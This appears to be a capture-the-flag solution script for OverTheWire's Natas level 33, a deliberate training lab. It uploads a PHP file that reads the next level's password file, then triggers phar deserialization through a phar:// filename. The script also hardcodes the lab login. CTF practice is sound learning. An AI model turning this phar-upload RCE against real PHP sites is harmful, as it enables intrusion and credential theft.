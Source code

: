 ```python
import requests
import hashlib
import subprocess

level = 'natas33'
url = 'http://{}.natas.labs.overthewire.org'.format(level)

# Hardcoded credentials
auth = (level, '2v9nDlbSF7jvawaCncr5Z9kSzkmBeoCJ')

content = b'<?php echo file_get_contents("/etc/natas_webpass/natas34"); ?>'
content_hash = hashlib.md5(content).hexdigest()
filename = 'rce.php'

# Read the template file
with open('natas33.php.template', 'r') as template:
    template_content = template.read()

# Replace placeholders with actual values
template_content = template_content.replace('{0}', filename).replace('{1}', content_hash)

# Write the updated content to natas33.php
with open('natas33.php', 'w') as o:
    o.write(template_content)

# phar.readonly attribute is usually activated, to avoid exactly what we are trying to do ;)
output = subprocess.check_output(['php', '-d', 'phar.readonly=false', 'natas33.php'])

# Upload your rce script and overwrite the filename field to have the file accessible for the next step.
requests.post(url + '/index.php', auth=auth,
              data={'filename': filename, 'submit': 'Upload File'},
              files={'uploadedfile': content})

# Now the tricky part: upload the generated phar file but instead of giving a file name, use the protocol handler.
response = requests.post(url + '/index.php', auth=auth, data={'filename': 'phar://test.phar/test.txt', 'submit': 'Upload File'}, files={'uploadedfile': open('test.phar', 'rb')})
print(response.text)
```

<figure><img src="../../../.gitbook/assets/image (417).png" alt=""><figcaption></figcaption></figure>
